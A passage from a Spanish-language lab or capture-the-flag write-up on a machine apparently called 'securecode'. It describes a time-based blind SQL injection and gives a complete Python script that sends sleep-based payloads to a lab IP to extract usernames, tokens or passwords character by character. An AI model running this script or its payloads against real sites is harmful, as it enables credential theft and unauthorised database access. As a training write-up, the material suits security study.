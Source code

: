 ![[Pasted image 20240121014842.png]]({%link assets/img/securecode/13.png%})

>Nos tarda 5 segundos en cargar la página. Esto nos indica que la comparativa es exitosa. Podemos listar la primera letra del usuario admin con la siguiente query:

![[Pasted image 20240121015716.png]]({%link assets/img/securecode/14.png%})

>Con esta misma query nos automatizaremos el proceso con un script escrito por nosotros en Python. 

```python
#!/usr/bin/env python

import sys, signal, time, requests, string
from termcolor import colored
from pwn import *
from argparse import ArgumentParser

def ctrl_c(sig,frame):
    print(colored(f"\n[!] Exiting...", "red"));
    sys.exit(1);

signal.signal(signal.SIGINT,ctrl_c);

def get_args():
    parser = ArgumentParser(description="Automatized SQL Injection");
    parser.add_argument('-c', '--column', required=True, dest="column", choices=["username", "token", "password"], help="Column to enumerate. Valid options: username, token, password");
    args = parser.parse_args().column; 
    return args;
    
def sqli(column):

    characters = string.printable; # caracteres imprimibles.
    main_url = "http://192.168.216.148/item/viewItem.php";
    creds = "";
    p1 = log.progress("SQL Injection");
    p1.status("Initiating attack...");
    p2 = log.progress("Retrieving creds...");

	# fijamos cada posición, iteramos para cada carácter hasta encontrar el correcto
	# y volvemos al bucle de posición.
    for position in range(0,100):
        for character in characters:
            payload = f"?id=1 and if( (select ascii(substring({column},{position},1)) from user where id=1)={ord(character)},sleep(1.5),1)";
            
            p1.status(payload);

            t1 = time.time();

            r = requests.get(main_url + payload);

            t2 = time.time();

            if (t2 - t1 > 1.5): # si t2 es mayor a t1, es porque la web tardó en responder.
                creds += character;
                p2.status(creds);
                break;

if __name__ == "__main__":
    column = get_args()
    sqli(column)
```
